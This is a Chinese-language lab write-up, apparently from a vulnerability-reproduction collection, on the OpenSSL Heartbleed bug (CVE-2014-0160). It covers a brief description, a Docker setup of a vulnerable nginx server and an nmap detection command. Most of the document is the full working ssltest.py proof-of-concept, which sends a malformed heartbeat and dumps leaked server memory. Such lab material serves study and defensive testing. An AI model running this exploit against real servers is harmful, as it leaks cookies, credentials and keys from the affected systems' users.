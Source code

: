 # OpenSSL 心脏出血漏洞 CVE-2014-0160

## 漏洞描述

在OpenSSL1.0.1版本中存在严重漏洞（CVE-2014-0160），此次漏洞问题存在于ssl/dl_both.c文件中。OpenSSL Heartbleed模块存在一个BUG，当攻击者构造一个特殊的数据包，满足用户心跳包中无法提供足够多的数据，会导致memcpy把SSLv3记录之后的数据直接输出，该漏洞导致攻击者可以远程读取存在漏洞版本的openssl服务器内存中长大64K的数据。

心脏出血是一个内存漏洞，攻击者利用这个漏洞可以服务到目标进程内存信息，如其他人的Cookie等敏感信息。

参考链接：

- https://heartbleed.com/
- https://filippo.io/Heartbleed

## 环境搭建

Vulhub运行如下命令启动一个使用了OpenSSL 1.0.1c的Nginx服务器：

```
docker-compose up -d
```

环境启动后，访问`https://your-ip`即可查看到hello页面。

![image-20220224095222840](./images/202202240952891.png)

## 漏洞复现

通过Nmap进行漏洞检测：

```shell
nmap -sV -p 443 --script ssl-heartbleed.nse your-ip
```

![image-20220224102304171](./images/202202241023370.png)

Python运行[ssltest.py](https://github.com/vulhub/vulhub/blob/master/openssl/heartbleed/ssltest.py)，拿到敏感数据（可能包含Cookie）。

![image-20220224104055810](./images/202202241040993.png)

## 漏洞POC

ssltest.py：

```python
#!/usr/bin/python

# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
# The author disclaims copyright to this source code.

import sys
import struct
import socket
import time
import select
import binascii
import re
from optparse import OptionParser

options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')

def h2bin(x):
    return binascii.unhexlify(x.replace(' ', '').replace('\n', ''))

hello = h2bin('''
16 03 02 00 dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
00 0f 00 01 01
''')

hb = h2bin('''
18 03 02 00 03
01 40 00
''')

def hexdump(s: bytes):
    for b in range(0, len(s), 16):
        lin = [c for c in s[b : b + 16]]
        hxdat = ' '.join('%02X' % c for c in lin)
        pdat = ''.join((chr(c) if 32 <= c <= 126 else '.' )for c in lin)
        print('  %04x: %-48s %s' % (b, hxdat, pdat))

    print("")

def recvall(s, length, timeout=5):
    endtime = time.time() + timeout
    rdata = b''
    remain = length
    while remain > 0:
        rtime = endtime - time.time()
        if rtime < 0:
            return None
        r, w, e = select.select([s], [], [], 5)
        if s in r:
            data = s.recv(remain)
            # EOF?
            if not data:
                return None
            rdata += data
            remain -= len(data)
    return rdata


def recvmsg(s):
    hdr = recvall(s, 5)
    if hdr is None:
        print('Unexpected EOF receiving record header - server closed connection')
        return None, None, None
    typ, ver, ln = struct.unpack('>BHH', hdr)
    pay = recvall(s, ln, 10)
    if pay is None:
        print('Unexpected EOF receiving record payload - server closed connection')
        return None, None, None
    print(' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay)))
    return typ, ver, pay

def hit_hb(s):
    s.send(hb)
    while True:
        typ, ver, pay = recvmsg(s)
        if typ is None:
            print('No heartbeat response received, server likely not vulnerable')
            return False

        if typ == 24:
            print('Received heartbeat response:')
            hexdump(pay)
            if len(pay) > 3:
                print('WARNING: server returned more data than it should - server is vulnerable!')
            else:
                print('Server processed malformed heartbeat, but did not return any extra data.')
            return True

        if typ == 21:
            print('Received alert:')
            hexdump(pay)
            print('Server returned error, likely not vulnerable')
            return False

def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print('Connecting...')
    sys.stdout.flush()
    s.connect((args[0], opts.port))
    print('Sending Client Hello...')
    sys.stdout.flush()
    s.send(hello)
    print('Waiting for Server Hello...')
    sys.stdout.flush()
    while True:
        typ, ver, pay = recvmsg(s)
        if typ == None:
            print('Server closed connection without sending Server Hello.')
            return
        # Look for server hello done message.
        if typ == 22 and pay[0] == 0x0E:
            break

    print('Sending heartbeat request...')
    sys.stdout.flush()
    s.send(hb)
    hit_hb(s)

if __name__ == '__main__':
    main()
```
